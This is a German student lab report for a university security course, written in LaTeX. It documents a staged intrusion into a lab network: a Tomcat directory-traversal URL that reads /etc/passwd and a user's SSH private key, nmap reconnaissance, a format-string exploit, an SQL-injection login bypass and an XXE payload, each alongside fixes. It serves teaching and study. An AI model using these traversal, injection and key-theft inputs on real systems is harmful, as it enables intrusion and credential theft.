%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% Institut für Rechnergestuetzte Automation
% Forschungsgruppe Industrial Software
% Arbeitsgruppe ESSE
% http://security.inso.tuwien.ac.at/
% lva.security@inso.tuwien.ac.at
% 
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\documentclass[12pt,a4paper,titlepage,oneside]{scrartcl}
\usepackage{esseProtocol}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% FOR STUDENTS
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% Group number or "0" for Lab0
\newcommand{\gruppe}{5}
% Date
\newcommand{\datum}{15.05.2013}
% valid values: "Lab0", "Lab1" (be sure to use Uppercase for first character)
\newcommand{\lab}{Lab1}

% name of course, for example: "IT Security in Large IT Infrastructures", "Security for Systems Engineering", "Introduction to Security"
\newcommand{\lvaname}{Security for Systems Engineering}
% number of course, for example: "183.633", "183.637", "183.594"
\newcommand{\lvanr}{183.637}
% year and term, for example: "SS 2012", "WS 2012", "SS 2013", etc.
\newcommand{\semester}{SS 2013}

% Group members
\newcommand{\studentAName}{Florin Bogdan BALINT}
\newcommand{\studentAMatrnr}{0725439}
\newcommand{\studentAEmail}{e0725439@student.tuwien.ac.at}

\newcommand{\studentBName}{Tudor-Octav PLES}
\newcommand{\studentBMatrnr}{0826687}
\newcommand{\studentBEmail}{e0826687@student.tuwien.ac.at}

\newcommand{\studentCName}{Zoltan KREKUS}
\newcommand{\studentCMatrnr}{0702077}
\newcommand{\studentCEmail}{e0702077@student.tuwien.ac.at}

\newcommand{\studentDName}{Simon Georg HECHT}
\newcommand{\studentDMatrnr}{0926240}
\newcommand{\studentDEmail}{e0926240@student.tuwien.ac.at}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% DO NOT CHANGE THE FOLLOWING PART
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\dokumenttyp}{Abgabedokument \lab}

\begin{document}

\maketitle
\setcounter{section}{0}
\setcounter{tocdepth}{2}
\tableofcontents

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% CONTENT OF DOCUMENT STARTS HERE
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Einleitung}

\subsection{Arbeitsumgebung}
Die Lösung dieser Übung wurde unter mehreren Betriebssystemen erarbeitet. Je nach Beispiel wird eine entsprechende Referenz darauf gemacht, um welchen Betriebssystem es sich handelt. Insgesamt wurden folgende Betriebssysteme für die Lösung der Übungsaufgabe verwendet: Microsoft Windows 7, XUbuntu, MacOS.

\subsection{Verwendete Programme und Quellen}
Für die meisten Befehele wurden die Manual Einträge unter Linux verwendet, bzw. wurde nach Beispielen im Internet gesucht (via www.google.com) und diese ggf. angepasst. Die konkreten Quellenangaben werden an den entsprechenden Stellen im Dokument bekannt gegeben.

\subsection{Vereinfachte Annahmen}
Der Einfachheit halber werden wir in diesem Abgabedokument bei den Befehlen auf konkrete Matrikelnummern verzichten und sie mit '0xxxxxx' ersetzten.

\newpage

\section{Lab1a}

\subsection{Login via ssh}
\noindent
In der vorherigen Übung wurde erfolgreich eine Verbindung mit dem Server: \emph{sela.inso.tuwien.ac.at}, Port \emph{12345}; Fingerprint: \emph{b3:4a:6f:33:30:5a:db:72:f1:9c:c8:ad:39:a7:1d:f6}, hergestellt.

\noindent
Nun soll eine ssh-Verbindung auf dem Server mit der IP:\emph{192.168.20.100} und dem Port \emph{8000} für den Benutzer \emph{walter} hergestellt werden. Da wir in diesem Fall die genaue IP-Adresse und den genauen Port im Netzwerk kennen ist ein Port Forwarding sehr empfehlenswert und zwar mittels dem Befehl:


\begin{lstlisting}[caption=Port Forwarding - Tomcat Access,label=code:beispiel1,style=simple]
user:$ ssh 0xxxxxx@sela.inso.tuwien.ac.at -p 12345 -L 2323:192.168.20.100:8000
\end{lstlisting}

\noindent
wird was sich auch immer hinter dem Tomcat verbirgt auf den lokalen Host: \emph{localhost} Port \emph{2323} umgeleitet. Wenn man nun einen lokalen Browser aufruft und auf \emph{localhost:2323/} geht erscheint nun im Browser die Meldung 'Welcome to lab1!'.

\noindent
Um Exploits ausnutzen zu können muss man wissen womit man es zu tun hat. Wenn man ganz einfach eine Seite eintippt die nicht existiert, wie z.B. 

\url{localhost:2323/asdf} 

\noindent
so kommt eine 'HTTP 404 - NOT FOUND' Fehlermeldung, aber mit ihr auch unten die Apache Tomcat Version: 6.0.16. Nun ist eine (Internet-)Recherche um bekannte Sicherheitslücken dieser Version zu finden angesagt. Z.B.: auf 

\url{http://www.cvedetails.com/} => bekannte Seite für Sicherheitslücken in nahezu allen gängigen Webservern, Datenbanken, Frameworks, Programmiersprachen, etc.
Liste der Lücken in Apache Tomcat/6.0.16 => 

\url{vulnerability-list/vendor_id-45/product_id-887/version_id-56605/Apache-Tomcat-6.0.16.html}

\noindent
Da es unser Ziel ist an weitere Zugangsdaten zu kommen suchen wir nach Attacken wie z.b. Directory Traversal, welches sich hierfür ausgezeichnet eignet.
Tatsächlich finden wir mehrere Einträge zu Sicherheitslücken im Bezug auf Direcory Traversal
\url{http://www.cvedetails.com/cve/CVE-2008-5515/}
\url{http://www.cvedetails.com/cve/CVE-2008-2370/}
\url{https://issues.apache.org/bugzilla/show_bug.cgi?id=45417}

\noindent
Mittels


\url{http://localhost:2323/\%c0\%ae\%c0\%ae/\%c0\%ae\%c0\%ae/\%c0\%ae\%c0\%ae/\%c0\%ae\%c0\%ae/\%c0\%ae\%c0\%ae/etc/passwd}

\noindent
kann man den kompletten Inhalt der Datei sehen, unter anderem den Eintrag:


\emph{walter:x:1000:1000::/home/walter:/bin/bash}. 

\noindent
Nachdem der Benutzer bekannt kann man den Inhalt des .ssh Verzeichnisses kopieren um eine ssh-Verbindung ohne Kennworteingabe zu ermöglichen. Dazu werden folgende Inhalte der Dateien im lokalen Verzeichnis unter .shh hineinkopiert (Bemerkung: das lokale Verzeichnis wurde davor geleert, sodass nur noch die Schlüssel von Walter sich drinnen befinden. In einem neuen Terminal wurden dann folgende Befehle eingegeben:


\begin{lstlisting}[caption=Get the id,label=code:beispiel1,style=simple]
user:$ wget http://localhost:2323/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/home/walter/.ssh/id_rsa
user:$ wget http://localhost:2323/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/home/walter/.ssh/id_rsa.pub
user:$ wget http://localhost:2323/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/home/walter/.ssh/authorized_keys
\end{lstlisting}

Um eine Verbindung 'als Walter' zu ermöglichen ist es notwendig einen erneuten Port Forwarding (d.h. neuer Terminal) zu machen mittels:
\begin{lstlisting}[caption=Port Forwarding - Tomcat Access,label=code:beispiel1,style=simple]
user:$ ssh -p 12345 -l 0xxxxxx -L 2223:192.168.20.100:22 sela.inso.tuwien.ac.at
\end{lstlisting}

Nun ist es möglich sich als Walter ohne Kennworteingabe anzmelden, dazu wurden folgende Befehle in einem erneuten Terminal eingegeben (zuerst die File Permissions richtig setzen und dann anmelden):
\begin{lstlisting}[caption=Change File Permissions and Tomcat Access,label=code:beispiel1,style=simple]
user:$ sudo chmod 600 id_rsa
user:$ ssh -p 2223 walter@localhost
\end{lstlisting}

Somit wurde eine erfolgreiche Verbindung 'als Walter' hergestellt.

\newpage

\section{Lab1b}
Im vorigen Schritt wurde eine erfolgreiche Verbindung mit dem Benutzer 'walter' hergestellt nun sollen mehrere Informationen über das gesamte Firmennetzwerk herausgefunden werden.

\subsection{DNS, IPv4 und IPv6}

\noindent
Mittels dem Befehl:

\begin{lstlisting}[caption=Nmap Host Discovery,label=code:beispiel1,style=simple]
user:$ nmap -sP 192.168.20.*
\end{lstlisting}

\noindent
werden alle IP-Adressen in dem Bereich 192.168.20.1-255 eingescannt (Nmap wird für sogenannte \emph{host discoveries} verwendet, siehe mehr dazu \url{http://en.wikipedia.org/wiki/Nmap}. Das selbe angewendet auf alle IP Bereiche die man einscannen soll (d.h. 192.168.20.*, 192.168.98.*, 172.16.2.*) gibt dann folgende IPv4 Adressen und DNS Namen zurück:

\begin{tabular}{ l | l }
\hline
  - & 192.168.20.100 \\ \hline
  - & 192.168.20.254 \\ \hline
omega.local.vienna.essecorp.invalid & 192.168.98.1 \\ \hline
alpha.local.vienna.essecorp.invalid &	192.168.98.10 \\ \hline
beta.local.vienna.essecorp.invalid &	192.168.98.28\\ \hline
gamma.local.vienna.essecorp.invalid	 & 192.168.98.54\\ \hline
delta.local.vienna.essecorp.invalid	& 192.168.98.99\\ \hline
tomcat.local.vienna.essecorp.invalid	& 192.168.98.124\\ \hline
epsilon.local.vienna.essecorp.invalid	& 192.168.98.201\\ \hline
zeta.local.vienna.essecorp.invalid	& 192.168.98.202\\ \hline
gemini.dmz.vienna.essecorp.invalid	& 172.16.2.12\\ \hline
phoenix.dmz.vienna.essecorp.invalid	& 172.16.2.15\\ \hline
taurus.dmz.vienna.essecorp.invalid	& 172.16.2.25\\ \hline
lyra.dmz.vienna.essecorp.invalid	& 172.16.2.253\\ \hline
\end{tabular}

\newpage

\noindent
Weiterhin interessieren uns die IPv6 Adressen. Diese kann man z.B. mittels dem Befehl nslookup herausfinden:

\begin{lstlisting}[caption=nslookup,style=simple]
walter@tomcat:~$ nslookup
> set type=AAAA
> omega.local.vienna.essecorp.invalid
Server:		192.168.98.10
Address:	192.168.98.10#53

omega.local.vienna.essecorp.invalid	has AAAA address fdcb:c447:e9d2:3553:1001::1
> 
\end{lstlisting}

\noindent
Dadurch wurden folgende Informationen gefunden:

\begin{tabular}{ l | l | l}
\hline
  - & 192.168.20.100 \\ \hline
  - & 192.168.20.254 \\ \hline
omega.local.vienna.essecorp.invalid & 192.168.98.1	& fdcb:c447:e9d2:3553:1001::1 \\ \hline
alpha.local.vienna.essecorp.invalid &	192.168.98.10   & fdcb:c447:e9d2:3553:1001::5 \\ \hline
beta.local.vienna.essecorp.invalid &	192.168.98.28	& fdcb:c447:e9d2:3553:1001::9\\ \hline
gamma.local.vienna.essecorp.invalid	 & 192.168.98.54	& fdcb:c447:e9d2:3553:1001::21\\ \hline
delta.local.vienna.essecorp.invalid	& 192.168.98.99 & fdcb:c447:e9d2:3553:1001::43\\ \hline
tomcat.local.vienna.essecorp.invalid	& 192.168.98.124 & fdcb:c447:e9d2:3553:1001::ab \\ \hline
epsilon.local.vienna.essecorp.invalid	& 192.168.98.201 & fdcb:c447:e9d2:3553:1001::79\\ \hline
zeta.local.vienna.essecorp.invalid	& 192.168.98.202 & fdcb:c447:e9d2:3553:1001::88\\ \hline
gemini.dmz.vienna.essecorp.invalid	& 172.16.2.12\\ \hline
phoenix.dmz.vienna.essecorp.invalid	& 172.16.2.15\\ \hline
taurus.dmz.vienna.essecorp.invalid	& 172.16.2.25\\ \hline
lyra.dmz.vienna.essecorp.invalid	& 172.16.2.253 & fdcb:c447:e9d2:3553:1002::fd\\ \hline
\end{tabular}

\noindent
Bemerkung: Um zusätzlich nach Maschinen zu suchen, die eventuell nur auf IPv6 laufen wurde ein Skript geschrieben und aufgerufen, der wie folgt ausschaut:

\begin{lstlisting}[caption=Scan IPv6,style=simple]
walter@tomcat:~$ for num in {1..300} do  ip='fdcb:c447:e9d2:3553:1000::'$(printf "%x" $num) echo "${ip}" ping6 -c 1 -t 1 $ip > /dev/null && echo "${ip} is up";done
\end{lstlisting}
\noindent
Hier wurden die IPv6 Bereiche die vorgegeben wurden eingetippt und es wurden keine zusätzlichen Maschinen gefunden.

\newpage

\subsection{MAC Adressen}

Die MAC Adressen kann man mittels folgendem Befehl aus der Tabelle des Betriebssystems, wo die MAC Adressen der Verbindungen gespeichert werden herausfinden:

\begin{lstlisting}[caption=arp table Connections,style=simple]
cat /proc/net/arp
\end{lstlisting}

Dadurch findet man folgende MAC Adressen:

\begin{tabular}{ l | l }
\hline
IPv4 &	MAC \\ \hline
192.168.20.100 &	00:1b:d7:12:bc:51 \\ \hline
192.168.20.254 &	00:e2:aa:21:c5:d1 \\ \hline
192.168.98.1 & 	00:1b:d2:0d:84:98 \\ \hline
192.168.98.10 &	00:1b:d2:d1:1f:85 \\ \hline
192.168.98.28 &	00:1b:d2:f0:60:59 \\ \hline
192.168.98.54 &	00:1b:d2:83:b8:41 \\ \hline
192.168.98.99 &	00:1b:d2:a7:8f:d2 \\ \hline
192.168.98.124 &	00:1b:d7:12:bc:52 \\ \hline
192.168.98.201 &	00:1b:d2:38:ae:b9 \\ \hline
192.168.98.202 &	00:1b:d2:85:9c:c4 \\ \hline
172.16.2.12	 & - \\ \hline
172.16.2.15	 & - \\ \hline
172.16.2.25	 & - \\ \hline
172.16.2.253	 &-  \\ \hline
\end{tabular}

\newpage

\subsection{Services}
Um die offenen Ports und Services heraus zu finden, verwendet man weiterhin den Befehl 'nmap' und zwar:

\begin{lstlisting}[caption=nmap services and ports Connections,style=simple]
walter@tomcat:~$ nmap 192.168.98.10

Starting Nmap 5.00 ( http://nmap.org ) at 2013-05-15 16:10 CEST
Interesting ports on alpha.local.vienna.essecorp.invalid (192.168.98.10):
Not shown: 999 closed ports
PORT   STATE SERVICE
53/tcp open  domain

Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
walter@tomcat:~$ 
\end{lstlisting}

Dadurch werden folgende Informationen gefunden:

\begin{tabular}{ l | l}
\hline
IPv4	& PORTS\\ \hline
192.168.20.100 & 22/tcp open ssh 8000/tcp open http-alt 8009/tcp open ajp13\\ \hline
192.168.20.254 &	22/tcp open ssh 873/tcp open rsync\\ \hline
192.168.98.1 & ALL CLOSED\\ \hline
192.168.98.10 & 53/tcp open domain dnsmasq 2.55\\ \hline
192.168.98.28 & 25/tcp open smtp\\ \hline
192.168.98.54 & 1080/tcp open socks\\ \hline
192.168.98.99 & 631/tcp open ipp\\ \hline
192.168.98.124 &	22/tcp open ssh 8000/tcp open http-alt 8009/tcp open ajp13 \\ \hline
192.168.98.201 &	139/tcp open netbios-ssn 445/tcp open microsoft-ds\\ \hline
192.168.98.202 &	ALL CLOSED\\ \hline
172.16.2.12 &	80/tcp open http\\ \hline
172.16.2.15 &	21/tcp open ftp\\ \hline
172.16.2.25 &	25/tcp open smtp\\ \hline
172.16.2.253 &	ALL CLOSED \\ \hline
\end{tabular}

\newpage

\subsection{Betriebssysteme und Funktionalität}
\noindent
Anhand der Services die laufen und den Ports wo sie laufen kann man die Funktionalität der einzelnen Maschinen heraus finden. Die Quelle folgender Angaben ist \url{http://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers}. Das Betriebssystem das gerade auf einer Maschine installiert ist wurde auf zwei Arten ermittelt: einerseits durch das TTL einer PING-Anfrage (Quelle: \url{http://www.map.meteoswiss.ch/map-doc/ftp-probleme.htm}) und andererseits durch den Befehl:

\begin{lstlisting}[caption=nmap OS Connections,style=simple]
walter@tomcat:~$ nmap -sV -T4 -F 192.168.20.100

Starting Nmap 5.00 ( http://nmap.org ) at 2013-05-15 17:01 CEST
Interesting ports on 192.168.20.100:
Not shown: 97 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.5p1 Debian 6+squeeze3 (protocol 2.0)
8000/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
8009/tcp open  ajp13?
Service Info: OS: Linux

Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.38 seconds
walter@tomcat:~$ 
\end{lstlisting}

\newpage
\noindent
Dadurch wurden folgende Ergebnisse erzielt:

\begin{tabular}{l|l|l}
\hline
IPv4 & 	SERVER USAGE	 & OS\\ \hline
192.168.20.100	 & apache tomcat server	22/tcp open ssh  & Debian 6+squeeze3 (protocol 2.0)\\ \hline
192.168.20.254	 & router	22/tcp open ssh OpenSSH 5.5p1  & Debian 6+squeeze1\\ \hline
192.168.98.1	 & unknown	 & TTL 64 – Linux\\ \hline
192.168.98.10	 & dns forwarder	 & TTL 64 – Linux\\ \hline
192.168.98.28	 & e-mail server	 & TTL 64 – Linux\\ \hline
192.168.98.54	 & proxy	 & TTL 64 – Linux\\ \hline
192.168.98.99	 & print server	 & TTL 64 – Linux\\ \hline
192.168.98.124	 & Apache tomcat server	22/tcp & Debian 6+squeeze3 (protocol 2.0)\\ \hline
192.168.98.201	 & samba server – ordnerfreigabe im netz	 & Windows \\ \hline
192.168.98.202	 & unknown	 & TTL 63 – Linux\\ \hline
172.16.2.12	 & web server	 & TTL 63 – Linux\\ \hline
172.16.2.15	 & ftp server	 & TTL 63 – Linux\\ \hline
172.16.2.25	 & e-mail server	 & TTL 63 – Linux\\ \hline
172.16.2.253	 & unknown	 & TTL 64 – Linux\\ \hline
\end{tabular}

\noindent
Bei der Maschine 192.168.20.254 handelt es sich um einen Router, da die Adressenvergabe (.254) typisch für einen Cisco Router ist auf der Port 22 verwendet wird, beispielsweise für Konfiguration.

\newpage
\subsection{Netzwerktopologie}
Um die Netzwerktopologie aufbauen zu können wurde folgender Befehl für alle Ipv4 Adressen verwendet:

\begin{lstlisting}[caption=nmap OS Connections,style=simple]
walter@tomcat:~$ tracepath -b 172.16.2.12
 1:  tomcat.local.vienna.essecorp.invalid (192.168.98.124)   0.070ms pmtu 1500
 1:  omega.local.vienna.essecorp.invalid (192.168.98.1)    0.254ms 
 1:  omega.local.vienna.essecorp.invalid (192.168.98.1)    0.144ms 
 2:  gemini.dmz.vienna.essecorp.invalid (172.16.2.12)      0.248ms reached
     Resume: pmtu 1500 hops 2 back 63 
\end{lstlisting}

Die Topologie schaut wie folgt aus:
\begin{figure}[h!]
  \centering
  \fbox{
    
\includegraphics[width=1.0\textwidth]{./imgs/topology.png}
  }
  \caption{Network Topology}
  \label{fig:logo1}
\end{figure}

\newpage

\section{Lab1c}

\subsection{app0}

\subsubsection{Art}
\noindent
Uncontrolled format string. Es wird eine Lücke in printf ausgenutzt, da der Parameter für die Formatierung falsch verwendet wurde.

\subsubsection{Codezeile(n)/Stelle(n)}
\noindent
\begin{itemize}  
\item 37: printf(input);
\item 61: printf(a);
\item 62: printf(op);
\item 63: printf(b);
\end{itemize}

\subsubsection{Korrekturmöglichkeit(en)}
\noindent
\begin{itemize}  
\item 37: printf("\%s", input);
\item 61: printf("\%s", a);
\item 62: printf("\%s", op);
\item 63: printf("\%s", b);
\end{itemize}
\subsubsection{Exploit Vorgehensweise / Script}
\noindent
Der Stack wird beispielsweise von oben nach unten geschrieben(Stackpointer erhöht sich). printf schreibt unten das erste Parameter der Funktion dazu und geht dann die Parameter im Format zurück(Stackpointer niedriger). Der Exploit nützt das, und liest mit \%u jeweils um 4 Byte zurück Variablen aus. Anschließend wird mit \%s von der aktuellen Position aus ein String bis zum nächsten newline gelesen. In dem Exploit gehen wir 7 mal \%n zurück um auf der Variable von secret zu landen und den geheimen Schlüssel auszulesen. Dies ist nur zur Demonstration, da wir ihn sowieso kennen müssen.

Der Stack selbst siehst so aus: [...], pwd[letztes zeichen]..[0], Funktionsübergabevariablen(leer, da startCalculator nichts hat), Rücksprungadresse, EBP, stop, x, y, a[29]..a[0], b[29]..b[0], op[9]..op[0].

Mit dem \%n Token ist es ausserdem möglich in Speicherbereiche zu schreiben. Das funktioniert so, dass wir mit den \%u soweit zurückgehen, bis wir auf eine Variable treffen, in der eine Speicheradresse(z.B. Rücksprungadresse der Funktion) steht, die wir manipulieren wollen. Anschließend wird \%n benutzt um den Wert davor in diese Variable zu schreiben.

\subsubsection{Ergaenzung nach Abgabe}

Der folgende Exploit demonstriert dies indem er 10 auf eine Adresse schreibt:

\begin{lstlisting}[caption=Exploit,label=code:exploit,style=simple]
echo -ne "secret\n1\n+\n\xb7\x77\x84\x40|%u|%08x|%10u%n\n" | ../src-vuln/src/sfv && echo ""
\end{lstlisting}

\subsubsection{Beschreibung d. korrigierten Version}
\noindent
Die korregierte Version benutzt printf richtig so, dass das erste Parameter mit dem Format-String nicht von den Eingabedaten missbraucht werden können um auf andere Variablen zuzugreifen. Die Änderungen benutzen den ersten Parameter jeweils selbst, so dass die weiteren Parameter nicht geparst werden.

\subsubsection{Recherche: Aktuelle Fälle}
\noindent		 
Die Sicherheitslücke ist für C-Programme immer noch sehr relevant. 2001 bis 2006 hat das MITRE CVE Projekt die Lücke als 9. meistberichtete Lücke eingestuft: \url{http://cwe.mitre.org/documents/vuln-trends/index.html}. Auf der Seite sind an die 500 Lücken bis Juni 2007 aufgelistet.
\subsubsection{Hintergrund, Auswirkung, etc.}
\noindent
Format String Overflows wurden im Juni 1999 erstmals publiziert. Im ersten Exploit wurde eine Schwachstelle in wu-ftpd 2.6.0 ausgenutzt. Ähnlich normalen Stack/Heap Overflows ist es möglich in Speicherbereiche zu schreiben und damit die Rücksprungadresse so zu ändern, dass beliebiger Code ausgeführt werden kann. Dadurch lässt sich Code über Eingabe in Applikationen schleusen. 
\subsubsection{Referenzen}
\noindent
\begin{itemize}  
\item \url{http://en.wikipedia.org/wiki/Uncontrolled_format_string}
\item \url{http://julianor.tripod.com/bc/formatstring-1.2.pdf}
\end{itemize}

\subsection{app1 - SQL Injection}
\noindent

\subsubsection{Art}
\noindent
SQL Injection. Bezeichnet eine Art von Attacke bei der schadhafter Code mittels Benutzereingaben, die als Eingabeparameter für SQL Queries dienen, injiziert wird.

\subsubsection{Codezeile(n)/Stelle(n)}
\noindent
Klasse: Login.class
\begin{itemize}  
\item 117ff: Hier wird die Benutzereingabe (Username + Password) unvalidiert und im Klartext eingelesen und in Variablen gespeichert.
\item 121ff:	Hier wird die Query als simples SQL Statement zusammengebaut. Dabei werden Username und Passwort (erneurt unvalidiert) eingefügt. 
An dieser Stelle kann nun 'schadhafter' SQL Code (über die Benutzereingabe) eingefügt werden.
\item 143: In dieser Zeile wird das SQL Statement ausgeführt.
\end{itemize}

\subsubsection{Korrekturmöglichkeit(en)}
\noindent
Unter anderem:
\begin{itemize}
\item Sanitize user input bzw. Escaping: Entfernen aller Meta-Zeichen im User-Input um SQL Injections zu verhindern. Zum Bsp. in PHP mittels mysql\_real\_escape\_string. 
\item Prepared Statements (empfohlen): Durch die Andwendung von Prepared Statements werden SQL Injections von Haus aus verhindert. Z.b.: PreparedStatements in Java oder C\#.
\item Stored Procedures: serverseitige SQL-Skripts, durch deren Einsatz SQL Injections verhindert werden können. Z.b. MsSqlServer Stored Procedures oder postgresql procedures.
\item DB Permissions: DB Restriktionen können auch helfen SQL Injections zu erschweren bzw den Schaden zumindest zu begrenzen.
\end{itemize}

\subsubsection{Exploit Vorgehensweise / Script}
\noindent
Ein automatisierter Exploit mittels Skript wurde aus Zeitgründen nicht umgesetzt. \\
Anleitung:
\begin{itemize}
\item Starte Java Applikation
\item Eingabe bei Username: 'or 1=1;--
\item Eingabe bei Passwort: <beliebiger Text>
\item Dadurch wird folgende Query ausgeführt: SELECT * FROM users WHERE name = ''or 1=1;--' AND pw = 'a' wobei alles nach dem '--' ignoriert wird.
\item Mittels dieser Attacke gelingt der Login als admin und man kann eine beliebige Message hinterlassen.
\end{itemize}

\subsubsection{Beschreibung d. korrigierten Version}
\noindent
In der korrigierten Version wird in Zeile 130 anstatt eines einfach Statements ein Prepared Statement ausgeführt, welches in Zeile 107 erstellt und in den Zeilen 127-128 parametrisiert wird.
Durch den Einsatz von Prepared Statements sind SQL Injection ausgeschlossen, da diese Statements vor ihrer Executierung 'compiliert' werden und die Parameter explizit und typisiert gesetzt werden, wodurch z.b. die Einklammerung von Strings von 'außen' erfolgt und nicht durch Meta-Zeichen umgangen werden kann. 
Dadurch ist ein Angriff dieser Art nicht mehr möglich.

\subsubsection{Recherche: Aktuelle Fälle}
\noindent	
\begin{itemize}
\item aktueller Fall: 'Pakistan goverment site again hacked via SQL Injection vulnerability'
\item Hintergrund, Auswirkung: DOS Attacke + Leak der Datenbank (beinhaltet u.a. diverse Zugangsdaten zu Regierungsseiten/-portalen)
\item Referenzen: 
\subitem \href{http://www.ehackingnews.com/2013/03/pakistan-goverment-site-again-hacked.htm}{eHackingNews - Pakistan Government Site Hacked}
\subitem \href{https://www.owasp.org/index.php/SQL_Injection}{OWASP - Sql Injection}
\end{itemize}


\subsection{app1 - XML DTD Injection / XML eXternal Entity (XXE) attacks }
\noindent

\subsubsection{Art}
\noindent
XML DTD Injection / XML eXternal Entity (XXE) attacks \\
Mittels sogenannter External Entities ist es möglich in einem XML File eine lokalen oder remote Link/URI (z.b. Pfad zur /etc/passwd) anzugeben. \\
Wird diese External Entity (bzw. ihr Inhalt) beim Parsen ausgelesen (und ggf. ausgegeben) kann ein Angreifer so an sensitive Daten kommen.

\subsubsection{Codezeile(n)/Stelle(n)}
\noindent
Klasse: Login.class
\begin{itemize}  
\item 49-56: Initialiserung der DocumentBuilderFactory bzw. des DocumentBuilder und Parsing des XML Files.
\item 59-83:	Auslesen der Nodes database/url, database/user, database/pw, database/setup mittels XPath Expressions. 
Externe Entitäten werden dabei ausgewertet, dadurch können hier z.b. Fileinhalte ausgelesen werden.
\item 92: Aufbau einer DB Connection mit den Parametern, welche aus dem XML File ausgelesen wurden. 
Schlägt der Connection Aufbau fehl (mittels Exception) wird der Stacktrace der Exception ausgegeben und kann u.U. sensitive Daten enthalten.
\end{itemize}

\subsubsection{Korrekturmöglichkeit(en)}
\noindent
Unter anderem:
\begin{itemize}
\item DocumentBuilderFactory anpassen, indem mittels setFeatures die Features 'external-general-entities' und 'disallow-doctype-decl' auf false gesetzt werden. 
Dadurch werden External Entities und Doctype Deklarationen deaktiviert bzw beim Parsen ignoriert.
\item Einsatz anderer, sicherer XML Parser (ggf. aus externen Libraries), die für sicherheitskritische Anwendungen vorgesehen sind und Fälle wie diesen daher von Haus aus abfangen.
\item Diverse Möglichkeiten zur Validierung des XML Files bevor es geparst wird.
\subitem Mittels XML Schema (XSD)
\subitem Eigene Implementierung einer Validierung des XML Textes (String Operationen, Regex, etc.)
\item DB Permissions: DB Restriktionen können auch helfen SQL Injections zu erschweren bzw den Schaden zumindest zu begrenzen.
\end{itemize}

\subsubsection{Exploit Vorgehensweise / Script}
\noindent
Ein automatisierter Exploit mittels Skript wurde nicht umgesetz, da die Anpassung des XML Files händisch vorgenommen werden sollte. \\
Anleitung: \\
(Hierbei wird davon ausgegangen, dass das Config File beim User (in dem Fall beim Angreifer) liegt. Andernfalls ist dieser Exploit (so) nicht durchführbar.)
\begin{itemize}
\item Editiere Config File und füge eine externe Entität hinzu, deren Inhalt die wir im Node /database/url referenzieren
\item Ändere Inhalt auf (beispielhaft):
\subitem \textless!DOCTYPE configuration [ \\
			\textless!ENTITY c SYSTEM [PATH\_TO\_SENSITIVE\_DATA] \textgreater \\
			]\textgreater \\
			\textless configuration \textgreater \\
				\textless database\textgreater \\
					\textless url \textgreater \&c; \textless /url \textgreater \\
					\textless user\textgreater sa \textless /user\textgreater \\
					\textless pw\textgreater\textless /pw\textgreater \\
				\textless /database\textgreater \\
			\textless /configuration\textgreater \\
wobei [PATH\_TO\_SENSITIVE\_DATA] eine URI zu einer Ressource/File ist, welche ausgelesen werden soll (z.b.: /etc/passwd).
\item Starte Java Applikation => XML File wird geparst, Url, Username und Passwort werden ausgelesen. Dabei enthält die Variable url den Inhalt der externen Entität.
\item Aufbau der DB Connection (Line 92) schlägt fehl, da die url keinen gültigen Treiber referenziert, und löst Exception aus.
\item Exception wird abgefangen und auf System.out ausgegeben. Der Stacktrace der Exception beinhaltet glücklicherweise den ausgelesen Inhalt der externen Entität als Teil der Exception Message. Dies sieht dann in etwa so aus:
\subitem java.sql.SQLException: No suitable driver found for [CONTENT\_OF\_SENSITIVE\_DATA] \\
